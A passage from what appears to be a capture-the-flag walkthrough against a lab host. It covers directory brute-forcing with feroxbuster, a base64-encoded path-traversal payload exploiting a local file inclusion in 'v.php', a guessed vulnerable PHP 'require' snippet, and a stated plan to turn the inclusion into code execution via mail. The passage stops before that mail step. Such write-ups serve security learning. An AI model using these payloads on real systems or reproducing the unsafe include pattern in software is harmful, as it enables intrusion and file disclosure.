 ![evidence](./static/05-ffuf-defaults.png)

And I check one by one, but I can not find anything useful, and I decided to do a dictionary attack on the webroot endpoints. When I use the `feroxbuster` command with a list of Seclists:
```shell
$ feroxbuster -w raft-medium-directories-lowercase.txt -u \
> 'http://192.168.2.38/' -x php,txt,md,jpg,xml,xls,xlsx
...SNIPPED...
200  GET  28l  135w  1254c http://192.168.2.38/index
200  GET  16l  22w   169c http://192.168.2.38/v.php
403  GET  10l  30w   293c http://192.168.2.38/server-status
301  GET  9l   28w   312c http://192.168.2.38/ascii
...SNIPPED...
```
When I access `http://192.168.2.38/ascii`, then I find another directory `letters`, and inside of that, there is a file called `ascii1.txt`, and with that, I can guess the absolute path of the webroot. When I use :
```
$ echo -n "../../../../var/www/ascii/letras/ascii1.txt" | base64
Li4vLi4vLi4vLi4vdmFyL3d3dy9hc2NpaS9sZXRyYXMvYXNjaWkxLnR4dA
```
Then I confirm that the webroot is in `/var/www`, when I access that value, then I can see the file `ascii1.txt`, when I test with a random value in the `GET` parameter, then I get a `500` status internal server error. When I combine the fact that the server includes a file, but if the file does not exist, the server fails, then I can guess the code of `v.php` using the `require` function, and it is likely that looks like this:
```php
file = base64_decode($_GET['a']);
require('ascii/letras'.file)
```
But after a while of reviewing files with the LFI, I got stuck, and I decided to see the other open ports again. When I remember that the TCP `25` is open, then I look for it in hacktricks, and I can see that it allows me to send emails, and that reminds me of the [`LFI to RCE via mail` section in `PayloadAllTheThings`](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#rce-via-mail). :
